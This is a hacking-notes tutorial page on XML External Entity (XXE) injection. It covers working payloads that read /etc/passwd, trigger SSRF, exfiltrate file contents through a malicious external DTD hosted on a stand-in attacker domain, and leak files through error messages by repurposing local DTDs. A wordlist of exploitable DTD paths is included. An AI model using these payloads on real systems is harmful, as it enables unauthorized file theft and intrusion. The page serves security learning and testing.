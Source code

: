 ```yaml
---
description: Injecting Entities into XML data to read local files and exfiltrate data
---
```


# XML External Entities (XXE)

{% embed url="https://portswigger.net/web-security/xxe" %}
Source of most examples on this page
{% endembed %}

## XML

Extensible Markup Language (XML) is a common data format for defining structures of data that can be nested. The basics are very simple, HTML is basically XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

It also allows variables called "entities" to be defined and used throughout the document. These are defined in the Document Type Definition (DTD) using a `<!ENTITY` tag. After that, they can be used anywhere in the document using the `&[name];` syntax:

{% code title="Example of XML Entities" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY something "381"> ]>
<stockCheck><productId>&something;</productId></stockCheck>
```
{% endcode %}

## External Entities

This becomes more dangerous when we introduce **External Entities**. These can reference local files or remote URLs:

{% code title="Example of a local file" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

{% code title="Example of a remote URL" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/endpoint?key=value"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

These become exploitable when an attacker can inject such entities into a document that will be parsed by the server, and then the result is returned in the response. You could easily read a local file like this, or make any GET request by the server (SSRF).&#x20;

## Blind XXE

In some cases, the document you send to the server is not directly returned back to you, only parsed by the server. All hope is not lost, as there are still various different techniques to make it exploitable.&#x20;

These can be easily detected with out-of-band detection. Tools like [`interactsh-client`](https://github.com/projectdiscovery/interactsh) can set up a domain that listens for DNS and HTTP requests, and you can send this domain as an external entity to see if a callback happens:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### External DTDs

The goal of most XXE injections is to exfiltrate a local file. Using entities, we can load a file into a variable, and we can make a DNS/HTTP request to any fixed URL. But we can combine the two with External DTDs, which allow the **nesting** of entities using special "parameter entities". You can recognize these by the `%` percentage sign during definition and are used with the `%[name];` syntax.&#x20;

This allows us to define a `file` entity, and then put this entity into the URL of another entity. Once these are used anywhere in the document, the contents of the file are put in the URL and the request is made:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
{% endcode %}

The catch is that External DTDs need to be, well, **external**. This means they cannot be inside of your initial payload and must be fetched from a local file or a remote URL. An attacker can host the file above, and then create the XXE injection attack with the following payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Error Based

A server might be hardened so that it cannot make random outgoing connections to your attacker's website, either to fetch the External DTD or to exfiltrate the file contents. In this case, two new techniques can be combined to still exfiltrate local files.&#x20;

An application might return details about an error when something goes wrong during the parsing of the XML document. One such error would be if it cannot find the local file specified in the entity. We can abuse this by defining a `%file;` entity again, and then using the file contents in the **path** of another entity, showing those contents in an error message:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

{% code title="Example response" %}
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
{% endcode %}

Now you might be thinking, how do we load that external entity if outgoing connections are blocked? And this is where the second technique comes in.&#x20;

On many systems, there are **existing** XML **DTDs** that can be repurposed by us attackers to do something similar to what you see above. One simple example is the \
`/usr/share/xml/fontconfig/fonts.dtd`\
``file with the following content:

{% code title="fonts.dtd" %}
```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```
{% endcode %}

The danger here is that an attacker can define this `%expr;` variable **before** it is defined here, and only the first definition will be used. From here, the attacker can escape the context using `)>` to add their own entities as if it were an external DTD that they control:

```xml
<!DOCTYPE message [
    <!-- Define the file path -->
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!-- Overwrite the %expr; entity to inject our error-based entities -->
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    <!-- Load the local DTD now that it is set up -->
    %local_dtd;
]>
<message></message>
```

The payload needed will depend on what variables you can overwrite, and the context they are in. Template payloads on 5 different example contexts can be found here:

{% embed url="https://github.com/GoSecure/dtd-finder/blob/2c69ee0be7ab62dd470f0057799577d887782ead/src/main/kotlin/EntityTester.kt#L139-L223" %}
5 different context escapes using local DTDs
{% endembed %}

Here are a few more paths where you might find an existing exploitable DTD:

<details>

<summary>Wordlist (<a href="https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/">source</a>)</summary>

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

</details>

This technique will allow you to again get the file contents in the error message, without needing any outgoing connection to your server.&#x20;
